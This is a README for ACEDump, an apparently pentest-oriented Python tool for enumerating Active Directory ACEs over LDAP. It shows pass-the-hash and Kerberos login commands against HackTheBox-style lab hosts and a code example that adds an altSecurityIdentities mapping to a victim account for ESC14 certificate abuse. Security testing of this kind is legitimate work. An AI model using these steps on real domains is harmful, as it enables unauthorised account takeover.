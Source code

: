 ########
ACE Dump
########

| Enumerating AD ACEs using ldap3 and impacket python3 librairies.
| ACE is also meant to be a toolbox for additional features.

|

***************
Getting Started
***************

.. code-block:: bash

    pipx install git+https://github.com/charlesgargasson/acedump.git@main
    # pipx uninstall acedump
    # pipx upgrade acedump

    # sudo apt install -y libkrb5-dev
    # sudo yum install -y krb5-devel

    # DEV install
    # pipx install /opt/git/acedump --editable

|

.. image:: demo/img1.png
  :width: 1200
  :alt: IMG1

|

***********
Credentials
***********

| ACEDump support NTLM, Kerberos, X509 certificates (no pfx support yet), NT hash, AES hash, user/password, TLS (636) and StartTLS (389).
| If you don't provide any hash or password, ACEDump will try a blank password.
|
| Kerberos auth require valid DNS entries.
| If no kerberos ccache set, ACEDump retrieve a new TGT.
| If no kerberos configuration set, ACEDump will use its own.

.. code-block:: bash

    # Kerberos CCACHE
    export KRB5CCNAME='USER.ccache'
    ace ldap DC01.BOX.HTB -u USER -d BOX.HTB -k

    # Kerberos NTHash (etype23)
    ace ldap DC01.BOX.HTB -u USER -d BOX.HTB -H 31d6cfe0d16ae931b73c59d7e0c089c0 -k

    # Kerberos AES
    ace ldap DC01.BOX.HTB -u USER -d BOX.HTB --aes 910e4c922b7516d4a17f05b5ae6a147578564284fff8461a02298ac9263bc913 -k

    # Kerberos user/password
    ace ldap DC01.BOX.HTB -u USER -d BOX.HTB -p 'FooBar_123' -k

    # Certificate X509 PEM over TLS (636)
    ace ldap DC01.BOX.HTB -u USER -d BOX.HTB --cert user.crt --certkey user.key --tls

    # Certificate X509 PEM with StartTLS (389)
    ace ldap DC01.BOX.HTB -u USER -d BOX.HTB --cert user.crt --certkey user.key

    # NTLM (password or hash)
    ace ldap DC01.BOX.HTB -u USER -d BOX.HTB -H 31d6cfe0d16ae931b73c59d7e0c089c0
    ace ldap DC01.BOX.HTB -u USER -d BOX.HTB -p 'FooBar_123'

    # Anonymous (untested)
    ace ldap DC01.BOX.HTB

|

***
NTP
***

| ACEDump mock LDAP's clock using currentTime attribute and libfaketime (there is no NTP request).
| Use dontfixtime option if you want to deal with clock skew by yourself.

|

****
Exec
****

| ACEDump can execute python code from stdin after connection.
| The connection object is "conn".

.. code-block:: bash

    ace ldap 10.129.211.247 -u john -p Pototo_1 -e <<< 'print(conn)'
    cat script.py | ace ldap 10.129.211.247 -u john -p Pototo_1 -e

    cat <<'EOF'| ace ldap 10.129.211.247 -u john -p Pototo_1 -e
    conn.search(args.basedn, '(SamAccountName=Administrator)', attributes=['*'])
    print(conn.entries)
    EOF

|

***********
Interactive
***********

| ACEDump start a python console after connection.
| The connection object is "conn"

|

.. code-block::

    $ ace ldap 10.129.211.247 -u john -p Pototo_1 -i -q
    [...]
    >>> print(conn)
    ldap://10.129.211.247:389 - cleartext - user: BOX.HTB\john - not lazy - bound - open - <local: 10.10.14.191:54227 - remote: 10.129.211.247:389> - tls started - listening - SyncStrategy - internal decoder

|

| Example to set VICTIM's altSecurityIdentities attribute for ESC14.

.. code-block:: bash

    target_dn = 'CN=victim,OU=Foobar,DC=box,DC=htb'
    issuer = 'DC=htb, DC=box, CN=box-DC01-CA'
    serial = '61:00:00:00:05:3d:d7:2a:1a:e6:6f:aa:f3:00:00:00:00:00:04'

    serial = ''.join(serial.split(':')[::-1])
    altSecurityIdentities = f"X509:<I>{issuer.replace(', ', ',')}<SR>{serial}"
    
    print(altSecurityIdentities)
    # X509:<I>DC=htb,DC=box,CN=box-DC01-CA<SR>040000000000f3aa6fe61a2ad73d0500000061

    import ldap3
    conn.modify(target_dn,{'altSecurityIdentities':[(ldap3.MODIFY_ADD, altSecurityIdentities)]})
    # Return True if changed

|

| Example to search user using SamAccountName attribute

.. code-block:: bash

    conn.search(args.basedn, '(SamAccountName=administrator)', attributes=['*'])
    conn.entries

|


***************
TroubleShooting
***************

| https://offsec.almond.consulting/ldap-authentication-in-active-directory-environments.html